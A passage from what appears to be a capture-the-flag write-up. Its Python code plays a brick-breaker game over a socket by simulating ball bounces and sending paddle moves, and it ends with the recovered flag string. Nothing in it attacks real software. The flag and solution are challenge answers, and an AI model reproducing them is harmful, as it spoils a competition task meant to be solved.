      move = move_direct[3] # 左下
    else: # nothing
      step += 1
      lo[0] += move[0]
      lo[1] += move[1]
  elif(move == move_direct[2]): # 右下
    if(lo[0] == 10): # biuuuuu
      sock.send(send_format("step "+str(step)))
      time.sleep(0.1)
      response = sock.recv(512)
      response = response.decode('utf-8')
      print(response)
      sock.send(send_format("move "+str(lo[1]-1))) # 板从0开始
      Map[lo[0]+1][lo[1]] = -1 # 将球下方设为boom，则处理方式与一般情况相同，撞击后变为空
      time.sleep(0.1)
      # printMap(Map)
      print("move "+str(lo[1]-1), "step "+str(step))
      response = sock.recv(512)
      # response = response.decode('utf-8')
      # print(response)
      step = 0 # step 重新计算
    if(Map[lo[0]+1][lo[1]] <= 0): # down
      Map[lo[0]+1][lo[1]] = -Map[lo[0]+1][lo[1]]
      if(Map[lo[0]][lo[1]+1] <= 0): # down+right
        Map[lo[0]][lo[1]+1] = -Map[lo[0]][lo[1]+1]
        move = move_direct[0] # 左上
      else: # down
        move = move_direct[1] # 右上
    elif(Map[lo[0]][lo[1]+1] <= 0): # right
      Map[lo[0]][lo[1]+1] = -Map[lo[0]][lo[1]+1]
      move = move_direct[3] # 左下
    elif(Map[lo[0]+1][lo[1]+1] <= 0): # downright
      Map[lo[0]+1][lo[1]+1] = -Map[lo[0]+1][lo[1]+1]
      move = move_direct[0] # 左上
    else: # nothing
      step += 1
      lo[0] += move[0]
      lo[1] += move[1]
  elif(move == move_direct[3]): # 左下
    if(lo[0] == 10): # biuuuuu
      sock.send(send_format("step "+str(step)))
      time.sleep(0.1)
      response = sock.recv(512)
      response = response.decode('utf-8')
      print(response)
      sock.send(send_format("move "+str(lo[1]-1))) # 板从0开始
      Map[lo[0]+1][lo[1]] = -1 # 将球下方设为boom，则处理方式与一般情况相同，撞击后变为空
      time.sleep(0.1)
      # printMap(Map)
      print("move "+str(lo[1]-1), "step "+str(step))
      response = sock.recv(512)
      # response = response.decode('utf-8')
      # print(response)
      step = 0 # step 重新计算
    if(Map[lo[0]+1][lo[1]] <= 0): # down
      Map[lo[0]+1][lo[1]] = -Map[lo[0]+1][lo[1]]
      if(Map[lo[0]][lo[1]-1] <= 0): # down+left
        Map[lo[0]][lo[1]-1] = -Map[lo[0]][lo[1]-1]
        move = move_direct[1] # 右上
      else: # down
        move = move_direct[0] # 左上
    elif(Map[lo[0]][lo[1]-1] <= 0): # left
      Map[lo[0]][lo[1]-1] = -Map[lo[0]][lo[1]-1]
      move = move_direct[2] # 右下
    elif(Map[lo[0]+1][lo[1]-1] <= 0): # downleft
      Map[lo[0]+1][lo[1]-1] = -Map[lo[0]+1][lo[1]-1]
      move = move_direct[1] # 右上
    else: # nothing
      step += 1
      lo[0] += move[0]
      lo[1] += move[1]
  # print(step, lo, move)
  # printMap(Map)
  # time.sleep(1)
```

貌似有bug，多跑几次就能出flag了（手动捂脸 `tsctf{ballgame_is_so_interesting}`